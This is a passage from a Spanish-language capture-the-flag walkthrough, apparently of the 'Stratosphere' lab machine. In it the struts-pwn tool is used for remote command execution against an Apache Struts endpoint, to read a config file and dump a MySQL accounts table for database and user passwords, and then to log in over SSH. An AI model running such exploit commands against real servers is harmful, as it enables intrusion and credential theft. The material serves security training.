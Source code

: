 ```bash
❯ python3 struts-pwn.py --url 'http://10.10.10.64:8080/Monitoring/example/Welcome.action' -c 'cat db_connect'

[*] URL: http://10.10.10.64:8080/Monitoring/example/Welcome.action
[*] CMD: cat db_connect
[!] ChunkedEncodingError Error: Making another request to the url.
Refer to: https://github.com/mazen160/struts-pwn/issues/8 for help.
EXCEPTION::::--> ("Connection broken: InvalidChunkLength(got length b'', 0 bytes read)", InvalidChunkLength(got length b'', 0 bytes read))
Note: Server Connection Closed Prematurely

[ssn]
user=ssn_admin
pass=AWs64@on*&

[users]
user=admin
pass=admin

[%] Done.
```

Examinando el contenido de mysql encontramos la base de datos `users` y tabla `accounts`. Si listamos su contenido obtenemos las credenciales del usuario `richard`

```bash
❯ python3 struts-pwn.py --url 'http://10.10.10.64:8080/Monitoring/example/Welcome.action' -c 'mysql -uadmin -padmin -e "use users; select * from accounts"'

[*] URL: http://10.10.10.64:8080/Monitoring/example/Welcome.action
[*] CMD: mysql -uadmin -padmin -e "use users; select * from accounts"
[!] ChunkedEncodingError Error: Making another request to the url.
Refer to: https://github.com/mazen160/struts-pwn/issues/8 for help.
EXCEPTION::::--> ("Connection broken: InvalidChunkLength(got length b'', 0 bytes read)", InvalidChunkLength(got length b'', 0 bytes read))
Note: Server Connection Closed Prematurely

fullName	password	username
Richard F. Smith	9tc*rhKuG5TyXvUJOrE^5CK7k	richard

[%] Done.
```

Nos conectamos por `ssh` y localizamos la flag de usuario en el directorio personal de `richard`

```bash
richard@stratosphere:~$ ls
Desktop  test.py  user.txt
richard@stratosphere:~$ cat user.txt 
b3ad9de45aae26214***************
```

### Escalada Privilegios
